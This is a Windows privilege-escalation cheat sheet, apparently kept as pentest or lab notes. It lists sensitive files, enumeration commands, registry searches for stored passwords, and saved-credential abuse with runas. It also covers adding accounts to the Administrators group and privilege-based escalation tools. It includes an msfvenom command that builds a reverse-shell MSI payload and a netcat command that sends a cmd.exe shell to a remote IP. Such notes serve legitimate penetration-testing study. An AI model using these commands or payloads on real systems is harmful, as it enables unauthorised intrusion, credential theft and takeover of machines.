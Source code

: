 # Windows

### Important Files

```
c:\windows\system32\drivers\etc\hosts
c:\windows\win.ini
C:\xampp\php\php.ini
C:\xampp\apache\logs\access.log
C:\Windows\System32\DRIVERS
```

### Enumeration & Commands

```powershell
windows-privesc-check2.exe --dump -a		# https://github.com/pentestmonkey/windows-privesc-check 
systeminfo
schtasks /query /fo LIST /v		# scheduled task
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}	# list all running services 
wmic service get name,displayname,pathname,startmode    # list all the running services
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"
wmic service get name, pathname
netstat -ano    # find out what ports are open
---------------------Always Elevated-----------------------
# if value = 1 for the following reg entry
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# Create msi payload: 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.131 LPORT=21 -f msi > esc.msi
# open nc on kali and run msi on victim to get SYSTEM shell
# https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/windows/shenzi
-----------------------------------------------------------
net users
net user /domain [username]   # check domain group of the user
reg query HKLM /f pass /t REG_SZ /s
-------------------------Run As----------------------------
cmdkey /list    # to view any available saved credential
runas /savecred /user:[username] cmd
runas /netonly /user:[username] cmd	# run cmd as another user (even if they dont exists)
runas /env /profile /user:DVR4\Administrator "C:\users\viewer\nc.exe -e cmd.exe 192.168.49.169 443" # useful when ssh not working
Import-module invoke-runascs.ps1        # https://github.com/antonioCoco/RunasCs
Invoke-RunasCs [username] [password] [cmd]
-------------------------Add user--------------------------
net user /add [username] [password]
net localgroup "Remote Desktop Users" [username] /add
net localgroup "Administrators" [username] /add
------------------------privileges-------------------------
whoami /priv		# https://github.com/gtworek/Priv2Admin
SeManageVolumePrivilege (disabled/enabled)       # https://github.com/CsEnox/SeManageVolumeExploit
SeImpersonatePrivilege         # JuicyPotato
SeBackupPrivilege         # robocopy /b C:\Users\Administrator\Desktop\ C:\
SeShutdownPrivilege		# allow user to reboot machine (doens't matter whether the state is enabled or disabled)
-----------------------------------------------------------
icacls "C:\Puppet"    # check path permission
icacls [FILE] /grant [USERNAME]:F   # :F for full access
whoami /groups		# UAC bypass

For SYSTEM shell after gaining administrator read/write access:
https://github.com/sailay1996/WerTrigger
```